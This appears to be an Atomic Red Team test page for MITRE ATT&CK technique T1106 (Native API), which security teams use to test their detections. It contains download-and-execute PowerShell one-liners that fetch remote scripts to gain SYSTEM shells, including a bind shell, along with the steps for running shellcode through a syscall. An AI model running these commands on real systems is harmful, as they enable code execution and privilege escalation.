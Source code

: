 # T1106 - Native API

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1106)

<blockquote>Adversaries may interact with the native OS application programming interface (API) to execute behaviors. Native APIs provide a controlled means of calling low-level OS services within the kernel, such as those involving hardware/devices, memory, and processes.(Citation: NT API Windows)(Citation: Linux Kernel API) These native APIs are leveraged by the OS during system boot (when other system components are not yet initialized) as well as carrying out tasks and requests during routine operations.

Adversaries may abuse these OS API functions as a means of executing behaviors. Similar to [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), the native API and its hierarchy of interfaces provide mechanisms to interact with and utilize various components of a victimized system.

Native API functions (such as <code>NtCreateProcess</code>) may be directed invoked via system calls / syscalls, but these features are also often exposed to user-mode applications via interfaces and libraries.(Citation: OutFlank System Calls)(Citation: CyberBit System Calls)(Citation: MDSec System Calls) For example, functions such as the Windows API <code>CreateProcess()</code> or GNU <code>fork()</code> will allow programs and scripts to start other processes.(Citation: Microsoft CreateProcess)(Citation: GNU Fork) This may allow API callers to execute a binary, run a CLI command, load modules, etc. as thousands of similar API functions exist for various system operations.(Citation: Microsoft Win32)(Citation: LIBC)(Citation: GLIBC)

Higher level software frameworks, such as Microsoft .NET and macOS Cocoa, are also available to interact with native APIs. These frameworks typically provide language wrappers/abstractions to API functionalities and are designed for ease-of-use/portability of code.(Citation: Microsoft NET)(Citation: Apple Core Services)(Citation: MACOS Cocoa)(Citation: macOS Foundation)

Adversaries may use assembly to directly or in-directly invoke syscalls in an attempt to subvert defensive sensors and detection signatures such as user mode API-hooks.(Citation: Redops Syscalls) Adversaries may also attempt to tamper with sensors and defensive tools associated with API monitoring, such as unhooking monitored functions via [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execution through API - CreateProcess](#atomic-test-1---execution-through-api---createprocess)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-createprocess-technique)

- [Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique](#atomic-test-3---winpwn---get-system-shell---bind-system-shell-using-createprocess-technique)

- [Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique](#atomic-test-4---winpwn---get-system-shell---pop-system-shell-using-namedpipe-impersonation-technique)

- [Atomic Test #5 - Run Shellcode via Syscall in Go](#atomic-test-5---run-shellcode-via-syscall-in-go)

<br/>

## Atomic Test #1 - Execution through API - CreateProcess

Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows

**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62

#### Inputs:

| Name        | Description                                               | Type | Default Value                                              |
| ----------- | --------------------------------------------------------- | ---- | ---------------------------------------------------------- |
| source_file | Location of the CSharp source file to compile and execute | path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs |
| output_file | Location of the payload                                   | path | %tmp%&#92;T1106.exe                                        |

#### Attack Commands: Run with `command_prompt`!

```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe "#{source_file}"
%tmp%/T1106.exe
```

#### Dependencies: Run with `powershell`!

##### Description: #{source_file} must exist on system.

##### Check Prereq Commands:

```powershell
if (Test-Path "#{source_file}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{source_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs" -OutFile "#{source_file}"
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique

Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```

<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique

Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```

<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique

Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```

<br/>
<br/>

## Atomic Test #5 - Run Shellcode via Syscall in Go

Runs shellcode in the current running process via a syscall.

Steps taken with this technique

1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
2. Use the RtlCopyMemory macro to copy the shellcode to the allocated memory space
3. Change the memory page permissions to Execute/Read with VirtualProtect
4. Use syscall to execute the entrypoint of the shellcode

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#syscall)

**Supported Platforms:** Windows

**auto_generated_guid:** ae56083f-28d0-417d-84da-df4242da1f7c

#### Attack Commands: Run with `powershell`!

```powershell
$PathToAtomicsFolder\T1106\bin\x64\syscall.exe -debug
```

#### Cleanup Commands:

```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
```

<br/>
